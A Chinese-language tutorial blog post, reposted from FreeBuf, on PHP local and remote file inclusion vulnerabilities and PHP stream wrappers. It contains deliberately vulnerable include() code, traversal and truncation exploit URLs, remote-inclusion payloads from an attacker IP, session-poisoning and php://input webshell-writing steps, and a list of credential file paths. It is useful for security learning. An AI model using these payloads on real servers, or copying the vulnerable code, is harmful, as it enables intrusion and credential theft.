FileIncloude(常见的文件包含漏洞及PHP伪协议分析)
文件包含简介
服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。这意味着您可以创建供所有网页引用的标准页眉或菜单文件。当页眉需要更新时，您只更新一个包含文件就可以了，或者当您向网站添加一张新页面时，仅仅需要修改一下菜单文件（而不是更新所有网页中的链接）。
文件包含函数
- require()
- require_once()
- include()
- include_one()
include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。
而include_once()，require_once()这两个函数，与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。
漏洞产生原因
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。
示例代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>例如：
$_GET[‘filename’]参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET[‘filename’]的值，执行非预期的操作。
本地文件包含漏洞
无限制本地文件包含漏洞
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>测试结果

常见的敏感信息路径：
- Windows系统
- c:\boot.ini // 查看系统版本
- c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
- c:\windows\repair\sam // 存储Windows系统初次安装的密码
- c:\ProgramFiles\mysql\my.ini // MySQL配置
- c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
- c:\windows\php.ini // php 配置信息
- Linux/Unix系统
- /etc/passwd // 账户信息
- /etc/shadow // 账户密码文件
- /usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
- /usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
- /usr/local/app/php5/lib/php.ini // PHP相关配置
- /etc/httpd/conf/httpd.conf // Apache配置文件
- /etc/my.conf // mysql 配置文件
session文件包含漏洞
利用条件：
session的存储位置可以获取
- 通过phpinfo的信息可以获取到session的存储位置。通过phpinfo的信息，获取到session.save_path为/var/lib/php/session：
- 通过猜测默认的session存放位置进行尝试。如linux下默认存储在/var/lib/php/session目录下：session中的内容可以被控制，传入恶意代码。
示例：
<?php
session_start();
$ctfs=$_GET['ctfs'];
$_SESSION["username"]=$ctfs;
?>漏洞分析
此php会将获取到的GET型ctfs变量的值存入到session中。
当访问http://www.xxx/session.php?ctfs=ctfs 后，会在/var/lib/php/session目录下存储session的值。
session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
到服务器的/var/lib/php/session目录下查看果然存在此文件，内容为：
[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
username|s:4:"ctfs"漏洞利用:
通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
当访问http://www.xxx/session.php?ctfs=后，会在/var/lib/php/session目录下存储session的值。
[root@6da845537b27 session]# cat sess_83317220159fc31cd7023422f64bea1a
username|s:18:"<?php phpinfo();?>";攻击者通过phpinfo()信息泄露或者猜测能获取到session存放的位置，文件名称通过开发者模式可获取到，然后通过文件包含的漏洞解析恶意代码getshell。

有限制本地文件包含漏洞绕过
%00截断
条件：magic_quotes_gpc = Off php版本<5.3.4
测试代码：
<?php
$filename = $_GET['filename'];
include($filename . ".html");
?>测试结果：
http://www.xxx.com/FI/FI.php?filename=../../../../../../../boot.ini%00测试结果：

路径长度截断
条件：windows OS，点号需要长于256；linux OS 长于4096
- Windows下目录最大长度为256字节，超出的部分会被丢弃；
- Linux下目录最大长度为4096字节，超出的部分会被丢弃。
测试代码：
<?php
$filename = $_GET['filename'];
include($filename . ".html");
?>EXP:
http://www.xxx.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././测试结果：

点号截断
条件：windows OS，点号需要长于256
测试代码：
<?php
$filename = $_GET['filename'];
include($filename . ".html");
?>
EXP:
http://www.xxx.com/FI/FI.php
?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................测试结果：

远程文件包含漏洞
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。
allow_url_fopen = On（是否允许打开远程文件）
allow_url_include = On（是否允许include/require远程文件）
无限制远程文件包含漏洞
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>
通过远程文件包含漏洞，包含php.txt可以解析。
有限制远程文件包含漏洞绕过
测试代码：
<?php include($_GET[‘filename’] . “.html”); ?>
代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。

问号绕过
http://www.xxx.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?
#号绕过
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23
还有哪些可以绕过？用burp跑一遍发现空格也可以绕过：

http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20
0×04 PHP伪协议
PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。
- file:// (访问本地文件系统)
- http:// (访问HTTP/HTTPS网址)
- ftp:// (访问FTP(s)URLS)
- php:// (访问各个输入/输出流(I/O streams))
- zlib:// (压缩流)
- data:// (数据(RFC 2397))
- glob:// (查找匹配的文件路径模式)
- phar:// (PHP归档)
- ssh2:// (Secure Shell2)
- rar:// (RAR)
- ogg:// (音频流)
- expect:// (处理交互式的流)
php:// 输入输出流
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。
php://filter（本地磁盘文件进行读取）
元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。
用法：?filename=php://filter/convert.base64-encode/resource=xxx.php 和 ?filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样。
条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>
php://input
可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 enctype=”multipart/form-data” 的时候 php://input 是无效的。
用法：?file=php://input 数据利用POST传过去。
php://input （读取POST数据）
碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；
测试代码：
<?php
echo file_get_contents("php://input");
?>
php://input（写入木马）
测试代码：
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。
如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马
<?PHP fputs(fopen(‘shell.php’,’w’),’‘);?>

测试结果

如果不开启allow_url_include会报错：
php://input（命令执行）
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；
POST过去PHP代码

如果不开启allow_url_include会报错：

file://伪协议 （读取文件内容）
通过file协议可以访问本地文件系统，读取到文件的内容
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>
data://伪协议
数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的； data://text/plain;base64,dGhlIHVzZXIgaXMgYWRtaW4
data://（读取文件）
和php伪协议的input类似，碰到file_get_contents()来用；
注意：<span style=”color: rgb(121, 121, 121);”><?php phpinfo();,这类执行代码最后没有?></span>闭合;
如果php.ini里的allow_url_include=On（PHP < 5.3.0）,就可以造成任意代码执行，同理在这就可以理解成远程文件包含漏洞（RFI）
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>
phar://伪协议
这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。
用法：?file=phar://压缩包/内部文件 phar://xxx.png/shell.php 注意： PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。 步骤： 写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式。
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>

zip://伪协议
zip伪协议和phar协议类似，但是用法不一样。
用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名] zip://xxx.png#shell.php。
条件： PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以 #在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符。
测试代码：
<?php
$filename = $_GET['filename'];
include($filename);
?>

转自：https://www.freebuf.com/articles/web/182280.html
转载请注明来源，欢迎对文章中的引用来源进行考证，欢迎指出任何有错误或不够清晰的表达。可以在下面评论区评论，也可以邮件至 zjre@qq.com
文章标题:FileIncloude(常见的文件包含漏洞及PHP伪协议分析)
文章字数:2.6k
本文作者:ZJR
发布时间:2020-02-28, 20:56:42
最后更新:2020-02-28, 20:58:29
原始链接:http://zjr-g.github.io/2020/02/28/FileIncloude/版权声明: "署名-非商用-相同方式共享 4.0" 转载请保留原文链接及作者。